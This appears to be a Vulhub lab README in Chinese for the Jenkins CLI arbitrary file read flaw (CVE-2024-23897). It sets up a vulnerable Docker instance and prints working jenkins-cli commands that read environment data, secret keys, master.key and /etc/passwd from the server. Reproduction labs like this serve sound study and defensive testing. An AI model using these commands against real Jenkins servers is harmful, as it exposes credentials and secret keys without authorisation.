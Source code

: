 # Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 漏洞环境

执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
